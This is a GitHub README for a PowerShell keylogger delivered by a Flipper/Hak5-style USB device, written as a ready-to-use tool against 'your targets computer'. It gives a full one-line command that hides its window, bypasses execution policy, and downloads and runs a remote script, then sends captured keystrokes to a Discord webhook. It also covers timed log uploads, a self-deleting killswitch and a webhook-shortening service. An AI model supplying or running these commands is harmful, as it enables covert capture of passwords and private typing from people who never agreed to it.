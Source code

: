![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Keylogger 

This is a Powershell based keylogger that exfiltrates the logs to discord

## Description

Quickly with just ONE line of code you can deploy a keylogger on your targets computer 

Complete with custom logging times, and self destruct feature

Just move the `keylogger.txt` file over to your flipper and you are good to go

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* 15 seconds later you have their keystrokes being sent to you

This is the basic command to install the keylogger and provide the webhook for the keystrokes to be sent back to you

* `$dc=''` is the variable where you plug in your discord webhook 
* These can tend to be pretty long: 
    
    "`https://discord.com/api/webhooks/1041572355253274356/hLhWPx-jrl6MKvpck-skir6f8C1ZWfGoRc035oj_djk9ric6j3efu43O-x-Iq597hMtu`"
* You can use the webhook shortening service on my website [HERE](https://link.iamjakoby.com/)

Where it will return something shorter like this:

`https://link.iamjakoby.com/xxxx`

```
powershell -w h -NoP -Ep Bypass $dc='https://link.iamjakoby.com/xxxx';iwr "https://jakoby.lol/m2m" | iex
```
### ADDITIONAL PARAMETERS

The payload is set to send the logs collected every hour on the hour

* You maybe use the `$log` variable to specify a certain time instead (Use this for testing)
* ex: `$log="09:00 pm"`  <-- This will send the log every night at 9pm

You also have the option of setting up a killswitch to have the keylogger self delete at a certain time and date 

`$ks="12/25/2022 10:00:00 PM"`  <-- This will make the keylogger self delete at 10pm on December 25th

Calling the script with both a `log` time and `killswitch` will look something like this: 
 
```
$dc='https://link.iamjakoby.com/xxxx';$log="09:00 pm";$ks="12/25/2022 10:00:00 PM";iwr "https://jakoby.lol/m2m" | iex
```
### DELETING THE KEYLOGGER

Just hold `Left Control` + `Right Control` for 5 seconds untill the notification box pops up

<img src= https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/Assets/keylogger/kkl.png width="400" alt="C#" />



<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

